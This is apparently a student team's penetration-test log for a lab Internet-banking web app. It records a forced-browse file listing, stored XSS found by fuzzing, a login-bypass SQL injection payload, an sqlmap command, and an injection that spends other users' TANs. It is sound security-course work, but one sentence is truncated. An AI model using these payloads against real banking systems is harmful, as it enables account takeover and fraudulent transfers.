 # Vulnerability log for Team 4

## Directory structure

### Using ZAP

#### Forced Browse
With a forced browse on /InternetBanking/, we get a quite long list of files. As some PHP files do not have the .php file suffix, they get downloaded instead. Also, the source code for the parser is included in the directory.

```
http://nuc:8085/InternetBanking/
http://nuc:8085/InternetBanking/DataAccess/
http://nuc:8085/InternetBanking/auth/
http://nuc:8085/InternetBanking/client/
http://nuc:8085/InternetBanking/controller/
http://nuc:8085/InternetBanking/controller/clientController.php
http://nuc:8085/InternetBanking/controller/clientFunctions.inc
http://nuc:8085/InternetBanking/controller/employeeController.php
http://nuc:8085/InternetBanking/controller/employeeFunctions.inc
http://nuc:8085/InternetBanking/controller/loginController.php
http://nuc:8085/InternetBanking/controller/logoutController.php
http://nuc:8085/InternetBanking/controller/registrationController.php
http://nuc:8085/InternetBanking/css/
http://nuc:8085/InternetBanking/css/bootstrap-theme.css
http://nuc:8085/InternetBanking/css/bootstrap-theme.css.map
http://nuc:8085/InternetBanking/css/bootstrap-theme.min.css
http://nuc:8085/InternetBanking/css/bootstrap.css
http://nuc:8085/InternetBanking/css/bootstrap.css.map
http://nuc:8085/InternetBanking/css/bootstrap.min.css
http://nuc:8085/InternetBanking/employee/
http://nuc:8085/InternetBanking/fonts/
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.eot
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.svg
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.ttf
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff
http://nuc:8085/InternetBanking/fonts/glyphicons-halflings-regular.woff2
http://nuc:8085/InternetBanking/index/
http://nuc:8085/InternetBanking/js/
http://nuc:8085/InternetBanking/js/bootstrap.js
http://nuc:8085/InternetBanking/js/bootstrap.min.js
http://nuc:8085/InternetBanking/js/npm.js
http://nuc:8085/InternetBanking/login/
http://nuc:8085/InternetBanking/logout/
http://nuc:8085/InternetBanking/model/
http://nuc:8085/InternetBanking/model/Payment.class
http://nuc:8085/InternetBanking/model/PaymentRequest.class
http://nuc:8085/InternetBanking/model/User.class
http://nuc:8085/InternetBanking/model/UserRequest.class
http://nuc:8085/InternetBanking/parser/
http://nuc:8085/InternetBanking/parser/Makefile
http://nuc:8085/InternetBanking/parser/exec
http://nuc:8085/InternetBanking/parser/main.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.c
http://nuc:8085/InternetBanking/parser/mysql_query_function.h
http://nuc:8085/InternetBanking/registration/
http://nuc:8085/InternetBanking/view/
http://nuc:8085/InternetBanking/view/account.inc
http://nuc:8085/InternetBanking/view/accounts.inc
http://nuc:8085/InternetBanking/view/approvepayments.inc
http://nuc:8085/InternetBanking/view/approveregistrations.inc
http://nuc:8085/InternetBanking/view/client.inc
http://nuc:8085/InternetBanking/view/employee.inc
http://nuc:8085/InternetBanking/view/file.inc
http://nuc:8085/InternetBanking/view/history.inc
http://nuc:8085/InternetBanking/view/historypdf.inc
http://nuc:8085/InternetBanking/view/login.inc
http://nuc:8085/InternetBanking/view/online.inc
http://nuc:8085/InternetBanking/view/registration.inc
```

### Noted behaviour

This list is very incomplete.

```
login.php - Login page and login execution
  Executes login when username and password specified in POST.

registration.php
  POST username=a1&email=&password=Aa1234%2F&passwordconf=Aa1234%2F&accounttype=client

client.php - Client sites
  GET action=account,history,historypdf,online,file
  Online: POST receipt=t1&amount=1&purpose=fdsgfdsg&trancode=r3bIvzE9JFLWpDd

employee.php - Employee main site
  GET action=accounts,approvepayments,approveregistrations,history,historypdf
  Approve regs: POST requestid, approve={reject,approve}
  History, history PDF: GET account

logout.php - Logout
```

## Login

### Using ZAP

#### Stored XSS Vulnerabilities

In registration: Fuzz the username using "jbrofuzz / XSS / XSS 101"
This can also be applied to the transaction description.

Consequence: The site of an employee can be completely destroyed, or one can ask for username and password of the employee with a rebuilt login form, etc.


#### SQL injection

In login: Fuzz the username using "jbrofuzz / SQL Injection / SQL Injection"
The last entry (  anything' OR 'x'='x  ) will login the attacker as "anything" (if the user exists) or as the first user where the password matches.

## Transaction HTML form

### Using SQLmap

Attacking the transaction form did not lead to any vulnerabilities from SQLmap:

```
sqlmap -u 'http://vm/InternetBanking/client.php?action=online' --data='receipt=t1&amount=1&purpose=sqli&tancode=te' --level=5 --risk=3 --text-only --cookie='PHPSESSID=8fqb4ba3cd322t4u13k1g2qhv4'
```

## File upload

### Manual testing
not, because the tools wouldn't be able to do that, but because the things are too special for general tools.

Note that stacked SQL queries appear to be not supported.

It looks like SQL errors end up in an immediate program exit, so we don't get "success" or "fail" displayed, except in the comment entry where success is always displayed. To check, one has to go to the history page and check whether the transaction appears there.

#### Finding database columns

Append  `" GROUP BY <colname> HAVING "1"="1`. It will say nothing, if the column does not exist.


#### Perform transaction without TAN (SQL injection)

In the TAN line, the parser apparently stops scanning the line after the first whitespace. This makes things more difficault, but not impossible:

`"OR(NOT(`id`IN(SELECT`id`FROM`payment`)))AND"x"="x`

This was found by manual testing and will use any unused TAN of any user. Potentially, the TANs of all users could be compromised.
